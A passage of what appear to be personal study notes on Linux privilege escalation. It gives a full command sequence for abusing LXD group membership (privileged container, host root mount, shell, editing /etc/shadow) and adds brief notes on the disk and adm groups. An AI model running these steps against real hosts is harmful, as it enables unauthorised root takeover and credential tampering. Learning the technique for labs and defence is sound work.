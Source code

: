 then we are done

- `docker image ls` → shows the images.

# **LXC / LXD**

Idea is the same as docker.

- First we will download `Alpine Image` in our machine and transfer it to victim
    
    A minimal Docker ***image*** based on ***Alpine*** Linux with a complete package index and only 5 MB in size!
    
- `lxd init` to initialize linux container daemon

unzip the `Alpine.zip`

- `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`→ import local image.
- `lxc image list` → to list out the images
- `lxc init alpine r00t -c security.privileged=true` → Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.
here `alpine` is the name of the image and `r00t` is the name of the container we are going to spawn
- `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true` → Mount the host file system.
    
    we are mounting entire file system `/` of the host to path `/mnt/root`
    
    `recursive=true` to get all the files and folders.
    
- `lxc start r00t` → starting the container. we can use `lxc list` to view the status
- `lxc exec r00t /bin/sh` → execute a command inside of our container

Now we are root on the container and container contains the whole file system of host.
we can edit the `/mnt/etc/shadow`to remove / change password of root, so that we can login as root in host. 

# Disk

user of disk group has full access within `/dev` such as `/dev/sda`

# **ADM**

Members of the adm group are able to read all logs stored in `/var/log`.

# **Service-based**

# **Cron Job**

![Untitled](.gitbook/assets/Linux%20Privilege%20Escalation%20590d05b435dd41758764005e70d8f8fd/Untitled%201.png)

